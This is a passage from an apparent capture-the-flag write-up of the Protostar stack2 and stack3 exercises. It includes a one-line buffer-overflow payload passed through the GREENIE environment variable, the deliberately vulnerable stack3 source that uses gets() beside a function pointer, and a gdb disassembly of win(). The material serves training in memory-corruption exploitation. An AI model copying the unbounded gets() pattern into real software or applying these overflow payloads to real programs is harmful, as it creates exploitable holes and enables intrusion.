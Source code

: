 For stack2 the objective is to change the modified variable to be: "0x0d0a0d0a". This challenge is slightly different however as it takes no user input when ran. It gets the input from the envronment variable "GREENIE". If we write a buffer overflow into this variable we can change the "modified" variable to be anything we like.

Again for this example we will just be using python's "struct" and a one-liner to complete.

### Exploit Code
```
>>> struct.pack("<L",0x0d0a0d0a)
'\n\r\n\r'

export GREENIE=$(python -c "print 'A' * 68 + '\n\r\n\r'"); ./stack2
```


## Stack3
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
In this challenge we can learn about redirecting code to reach new code that wasn't originally intended to run. In this case we have the function "win()" as the goal.
To do this challenge, I opened up the binary in gdb (ran the program once to get memory locations) and typed "disassemble win" to view the entry address of the function.

```
gdb-peda$ disassemble win
Dump of assembler code for function win:
   0x08048424 <+0>:	push   ebp
   0x08048425 <+1>:	mov    ebp,esp
   0x08048427 <+3>:	sub    esp,0x18
   0x0804842a <+6>:	mov    DWORD PTR [esp],0x8048540
   0x08048431 <+13>:	call   0x8048360 <puts@plt>
   0x08048436 <+18>:	leave  
   0x08048437 <+19>:	ret    
End of assembler dump.
```

